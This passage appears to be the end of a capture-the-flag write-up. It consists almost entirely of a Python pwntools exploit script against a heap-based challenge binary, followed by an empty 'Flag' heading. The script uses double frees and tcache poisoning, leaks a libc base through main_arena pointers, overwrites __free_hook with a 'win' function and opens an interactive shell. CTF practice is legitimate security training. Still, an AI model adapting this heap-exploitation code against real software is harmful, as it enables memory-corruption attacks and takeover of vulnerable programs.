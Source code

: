 ```python
    delete(s)
    delete(s)
    write(s, size, p64(curr + 0x500 + 0x20))
    write(s, size)
    write(s, size, p64(0) + p64(0x21))

    # free large chunk
    print(get_name(s))
    size = 0x40
    write(s, size)
    delete(s)
    delete(s)
    write(s, size, p64(large_chunk))  # next next chunk is curr + 0x10 (large chunk)
    write(s, size)
    write(s, size, b"free large_chunk")
    delete(s)

    # libc leak by overreading name from bk (but this value points somewhere of main_arena)
    # I guessed offset is 0x490
    size = 0x50
    write(s, size)
    delete(s)
    delete(s)
    write(s, size, p64(name_addr))
    write(s, size)
    write(s, size, b"junkjunkjunkjunk")

    r = get_name(s)
    print(r)

    libc_base = u64(r[0x10:].ljust(8, b"\x00")) - arena_libc - 0x490

    print(hex(libc_base))
    free_hook_addr = libc_base + libc.symbols["__free_hook"]

    # tcache poisoning
    size = 0x60
    write(s, size)
    delete(s)
    delete(s)
    write(s, size, p64(free_hook_addr))
    write(s, size)
    write(s, size, p64(win))

    delete(s)

    s.interactive()
```

## Flag
